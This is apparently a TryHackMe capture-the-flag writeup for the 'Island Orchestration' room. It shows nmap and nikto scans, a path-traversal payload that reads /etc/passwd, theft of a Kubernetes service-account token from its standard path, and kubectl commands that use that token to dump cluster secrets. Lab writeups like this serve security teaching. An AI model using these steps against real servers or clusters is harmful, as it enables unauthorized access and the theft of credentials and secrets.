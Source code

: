 # Island Orchestration writeup

This is a writeup for TryHackMe room `Island Orchestration` over at https://tryhackme.com/room/islandorchestration

## nmap

Let's find out what's running

```
nmap -sCV IP -v -T5
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http          Apache httpd 2.2.22 ((Ubuntu))
8443/tcp open  ssl/https-alt minikubeCA
```

So we've got a website port 80, SSH port 22 and a minikube instance port 8443

## Website

I have a usual workflow I use to enumerate websites:

- gobuster
- enum4linux
- nikto

Here the first 2 don't give much info but nikto gives us

```
nikto -host IP
/index.php?page=../../../../../../../../../../etc/passwd: The PHP-Nuke Rocket add-in is vulnerable to file traversal, allowing etc...
```

passwd and shadow don't reveal anything.

Knowing this is a kube CTF, the obvious info that I could need is in the serviceaccount directory

It's located at `/var/run/secrets/kubernetes.io/serviceaccount`

Now the interesting files in there are `ca.cert` and `token`

They both exist. We only need the token for this room. It's a simple JWT token that can be decoded at https://jwt.io

You can find namespace and other info that we don't need this time.

## Kube

For the rest of the room you need to have kubectl installed on your machine.
You can find the necessary info here https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/

With the auth token we can now query the remote minikube cluster from our local machine.

Syntax will be `kubectl --server https://IP:PORT --token TOKEN --insecure-skip-tls-verify COMMAND`

We already know kube's port 8443 and we have a token. You can create a temporary alias for this.

### Secrets

Kube secrets are the first thing to look at

`kubectl --server https://IP:8443 --token TOKEN --insecure-skip-tls-verify get secrets`

We get a list of secrets

```
NAME                  TYPE                                  DATA   AGE
default-token-8bksk   kubernetes.io/service-account-token   3      180d
flag                  Opaque                                1      125d
islands-token-dtrnt   kubernetes.io/service-account-token   3      125d
```

One obvious thing strikes us, they have a secret called flag.

`kubectl --server https://IP:8443 --token TOKEN --insecure-skip-tls-verify get secret flag -o yaml`

This command retrieves secret's contents in yaml output format

```
...
data:
  flag: SECRET_HERE
kind: Secret
...
```

The secret value is usually base64 encoded so `echo "SECRET" | base64 -d` to get the flag and complete the room.

If you find kubernetes security interesting, head over https://tryhackme.com/hacktivities?tab=search and search for 'kube' rooms.

There should be 5 more for you to enjoy. (somewhat more advanced than this one)

You can then come back to this room and see if you can get root :D
